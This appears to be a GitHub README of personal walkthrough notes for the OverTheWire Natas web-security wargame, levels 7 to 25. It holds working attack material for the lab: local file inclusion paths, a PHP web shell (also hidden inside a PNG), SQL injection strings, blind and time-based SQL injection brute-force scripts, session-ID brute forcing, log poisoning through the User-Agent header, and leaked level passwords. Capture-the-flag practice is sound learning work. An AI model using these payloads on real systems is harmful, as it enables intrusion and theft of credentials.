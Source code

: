 # over-the-wire-natas
Did till natas7 b4 creating this repo <br>
Starting from natas7<br><br>
->Natas7<br>
used concept of local file inclusion. open source code(ctrl+U) and hint is given that pwd is in /etc/.../natas8/. observe that url of home and about contains php part.
from "https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion"<br> Typical proof-of-concept would be to load passwd file:
<i>http://vulnerable_host/preview.php?file=../../../../etc/passwd. </i> so just put /etc../natas8 in url instead of about. <br> <br>
->Natas8<br>
nothing in ctrl+U. going to "view sourcecode" will find php code. take the encodedSecret, convert it to ascii, reverse it, decode base64 and lesgoo!! <br><br>
->Natas9<br>
play around. type * and it gives the source code. tried ls -a. # verifies that it's working. ```| cat``` gives entire txt file. or just do http://natas9.natas.labs.overthewire.org/dictionary.txt (as proven by typing ```ls -a``` in search)<br> given at beginning of natas - all pwds are at /etc/natas_webpass/natasX. so type ```| cat /etc/natas_webpass/natas10```.<br>unrelated info: no. of "." (periods) will determine the min. word length. supports regex. type ^.......$ to get 7 letter words only<br><br>
->Natas10<br>
search ```"" cat /etc/natas_webpass/natas11```.<br><br>
->Natas11<br>
WTF. 3 things - key,cipher,plaintext - are reqd. in XOR encryption. to find key do XOR of cipher and plaintext. plaintext = ```{"showpassword":"no","bgcolor":"#ffffff"}```. copy COOKIE, b64 decode it, XOR it using plaintext as key. key will be obtained as repeated pattern. now set showpwd to yes in plaintext and do reverse to find cookie. change value of cookie and reload page.<br><br>
->Natas12<br>
```A malicious file such as a Unix shell script, a windows virus, an Excel file with a dangerous formula, or a reverse shell can be uploaded on the server in order to execute code by an administrator or webmaster later – on the victim’s machine.```<br>
just write a php file with code ```<?php
$output = shell_exec('cat /etc/natas_webpass/natas13');
echo "<pre>$output</pre>";
?>``` and save it with .php extension. then choose it and upload it through burpsuite using proxy. in burpsuite change the file extension in file name to .php and forward the request. open the file on the site to find pwd.<br><br>
->Natas13<br>
bit tricky. take a png file (i took a ss of 140bytes). open "hexed.it" (or any other tool u find useful). upload the png file. now, afaik, png files are recognized by IHDR and IEND tags in the hexdump. so just paste your php code after IEND. save it and follow the prev level steps now. key would be displayed after the hexdump of png file like ```�PNG  IHDR�=M�sRGB���gAMA���a pHYstt�fx!IDAT8Oc�����@`��D�Q ĀQ ĀA���hl� �IEND�B`�z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ```.<br><br>
->Natas14<br>
v simple. sql injection. write username admin. pwd as ```"or '1'='1'"```. yay!<br><br>
->Natas15<br>
itta ni aata, sry. "https://medium.com/@kawsaruddin238/overthewire-natas-level-14-level-15-411de023672c"<br><br>
->Natas16<br>
```
import requests,string
#BLIND SQL INJECTION
#$(command) - command subsitution
url = "http://natas16.natas.labs.overthewire.org"
username = "natas16"
pwd = "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"

ch = 'qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM1234567890'
password=''
for i in range(1,34):
    for char in ch:
        uri = f"{url}?needle=$(grep -E ^{password}{char}.* /etc/natas_webpass/natas17)hackers"
#grep -i "$(grep -E ^{''.join(password)}{char}.* /etc/natas_webpass/natas17)hackers" dictionary.txt
#hackers is a unique word in dictionary. so if anything gets prepended to it through our script,
#then it shouldn't return anything, right. so just add char to password with which nothing gets printed out.     
        r = requests.get(uri, auth=(username,pwd))
        if 'hackers' not in r.text:
            #The text attribute of the response object (r)
            password += char
            print(password)
            break
        else:
            continue
#"https://mcpa.github.io/natas/wargame/web/overthewire/2015/10/01/natas16/"
```
<br><br>
->Natas17<br>
read: "https://owasp.org/www-community/attacks/Blind_SQL_Injection" time-based part. help taken.
```
import requests
import time

url = "http://natas17.natas.labs.overthewire.org"
auth = ("natas17", "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC")
characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
cset = ""
for char in characters:
    payload = f'natas18" AND IF(password LIKE BINARY "%{char}%", SLEEP(15), 0) -- '
    start_time = time.time()

    response = requests.get(url, params={"username": payload}, auth=auth)

    elapsed_time = time.time() - start_time
    if elapsed_time > 15:  
        cset += char
print(f"Charset: {cset}")

password = ""
while len(password) != 32:
	for c in cset:
		t = password + c
		username = 'natas18" AND IF(password LIKE BINARY "%s%%",SLEEP(%d), 1)#' % (t, 15)
		r = requests.get(url, auth=auth, params={"username": username}
		)
		s = r.elapsed.total_seconds()
		if s >= 15:
			#print (t)
			password = t
			break
print("password: ",password)
```
<br><br>
->Natas18<br>
"https://stackoverflow.com/questions/1370951/what-is-phpsessid" ```PHP uses one of two methods to keep track of sessions. If cookies are enabled, like in your case, it uses them.``` ig hint is maxid = 640. so just loop through PHPSESSID from 1 to 640 using py script or burpsuite intruder. i used burpsuite sniper attack.<br><br>
->Natas19<br>
```
import requests ```
username = 'natas19'
pwd = 'tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr'
url = 'http://natas19.natas.labs.overthewire.org/'
#start a session
session = requests.Session()
#the cookie that i got is the hex form of "80-admin"-'38302d61646d696e', so try replacing 80
for x in range(1,641):
    string = (f"{x}"+"-admin").encode('utf-8')
    payload = string.hex()
    print(payload)
    response = session.get(url,cookies={'PHPSESSID':payload}, auth=(username,pwd))
    content = response.text
    if "You are an admin" in content:
        print("yello", x)
        break
    else:
        print ("tried: ", x)

```
<br><br>
->Natas20<br>
pay attention to ```$_SESSION[$parts[0]] = $parts[1];``` in source code and add "/index.php?debug" to url to print debug output. if you put name as "test" output is like read: \[name test\] then newline read: [] so if we make $parts = {'admin','1'} this lvl will be solved, as final condition is ```$_SESSION["admin"] == 1```.
so using burp suite make input of name like "test<newline>admin 1" this goes to mywrite and gets ksort-ed and gets printed as "admin=>1\nname=>test admin 1" and myread reads it after it ksorts it.<br>better would be enter "http://natas20.natas.labs.overthewire.org/index.php?debug&&name=test%0D%0Aadmin%201" and reload 1-2 times so u can see it along with debug. 2nd part is just url encoded "test\nadmin 1".<br><br>
->Natas21<br>
intercept the request to update styles on 2nd page through burpsuite and add "&admin=1". forward it. if you go to debug page, you can see that it has been added to the session array. simply reloading page1 doesn't work. so copy the cookie of pg2 and replace pg1's cookie with it and then reload :) .<br><br>
->Natas22<br>
took help. there is a paramter in session.get() called allow_redirects. make it equal to false.<br><br>
->Natas23<br>
type conversion error in php. read "https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09". ```For example, when PHP needs to compare the string “7 puppies” to the integer 7, PHP will attempt to EXTRACT the integer from the string. So this comparison will evaluate to True.``` try different combinations. will work for "<no>iloveyou" where <no> > 10. <br><br>
->Natas24<br>
"https://0xjay.com/bypassing-php-strcmp". ```== (strcmp) is an insecure comparison if the two strings are equal to each other then it returns true, this does not check data types. If we submit an empty array token[]=something PHP translates GET variables like this to an empty array which causes strcmp() to barf: strcmp(array(), "token") -> NULL which will return 0```. so in url just write "/?passwd[]=dsaa" (anything). it will throw an error and the flag.<br><br>
->Natas25<br>
help taken. replacement of the "../" can be bypassed by using "....//", by trial n error, "/?lang=....//....//....//....//....//etc/passwd" takes us to the proper hierarchy. there is no vuln in code to print anything like a pwd, so we will hv to go to the logFile. 
"/?lang=....//....//....//....//....///var/www/natas/natas25/logs/natas25_<enter phpsessid\>.log" will take us to the logFile as can be seen from the source code. 
the only thing that can be change in logReq fxn is the user-agent header. using burp change the user-agent field in burp request to ```<?php system('cat /etc/natas_webpass/natas26');?>```. passthru won't work (tried). shell_exec and exec won't print out the output. don't forget to change _GET in burp or make the request from the logFile page opened b4.<br><br>
->Natas26<br>





